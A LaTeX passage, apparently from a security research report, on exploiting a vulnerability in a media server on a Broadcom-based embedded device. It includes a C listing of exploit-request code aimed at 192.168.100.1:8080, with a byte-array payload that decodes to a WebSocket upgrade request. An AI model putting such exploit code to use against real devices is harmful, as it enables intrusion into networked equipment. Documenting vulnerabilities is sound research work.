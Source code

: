The code overrides the correct addresses as explained in \cref{subsec:exploitingTheVulneruablity} ending up calling the target function correctly.

Since we have full access to the linux side externally we can simply compile the code, and send it to the server over FTP. The equivalent C code executed on the media server can be seen in \cref{lst:cExploitCode}. 
A guide for installing the toolchain can be found at \url{https://github.com/broadcom/aeolus}.
This installs a linux elf toolchain for mips architectures, and if one wants to compile raw mips binary for running on the eCos side you have to strip the elf file as done in the Makefile of this project.

\begin{lstlisting}[language=c,label={lst:cExploitCode},caption={C code for execptunig the exlpoit request}]
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>

#define REMOTE_ADDR "192.168.100.1"
#define REMOTE_PORT 8080
#define BUF_SIZE 10000

char payload1[] = { 
0x47, 0x45, 0x54, 0x20, 0x2f, 0x20, 0x48, 0x54, 
0x54, 0x50, 0x2f, 0x31, 0x2e, 0x31, 0x0d, 0x0a, 
0x55, 0x70, 0x67, 0x72, 0x61, 0x64, 0x65, 0x3a, 
0x20, 0x77, 0x65, 0x62, 0x73, 0x6f, 0x63, 0x6b, 
0x65, 0x74, 0x0d, 0x0a, 0x43, 0x6f, 0x6e, 0x6e, 
0x65, 0x63, 0x74, 0x69, 0x6f, 0x6e, 0x3a, 0x20, 
0x55, 0x70, 0x67, 0x72, 0x61, 0x64, 0x65, 0x0d, 
0x0a, 0x48, 0x6f, 0x73, 0x74, 0x3a, 0x20, 0x31, 
0x32, 0x37, 0x2e, 0x30, 0x2e, 0x30, 0x2e, 0x31, 
0x3a, 0x31, 0x32, 0x33, 0x34, 0x0d, 0x0a, 0x4f, 
0x72, 0x69, 0x67, 0x69, 0x6e, 0x3a, 0x20, 0x68, 
0x74, 0x74, 0x70, 0x3a, 0x2f, 0x2f, 0x31, 0x32, 
0x37, 0x2e, 0x30, 0x2e, 0x30, 0x2e, 0x31, 0x3a, 
0x31, 0x32, 0x33, 0x34, 0x0d, 0x0a, 0x53, 0x65, 
0x63, 0x2d, 0x57, 0x65, 0x62, 0x53, 0x6f, 0x63, 
0x6b, 0x65, 0x74, 0x2d, 0x4b, 0x65, 0x79, 0x3a, 
0x20, 0x72, 0x32, 0x73, 0x72, 0x55, 0x4f, 0x6b, 
0x50, 0x62, 0x6e, 0x4b, 0x68, 0x79, 0x6d, 0x48, 
0x7a, 0x4e, 0x45, 0x77, 0x50, 0x74, 0x77, 0x3d, 
0x3d, 0x0d, 0x0a, 0x53, 0x65, 0x63, 0x2d, 0x57, 
0x65, 0x62, 0x53, 0x6f, 0x63, 0x6b, 0x65, 0x74, 
0x2d, 0x56, 0x65, 0x72, 0x73, 0x69, 0x6f, 0x6e, 
0x3a, 0x20, 0x31, 0x33, 0x0d, 0x0a, 0x0d, 0x0a };


\end{lstlisting}
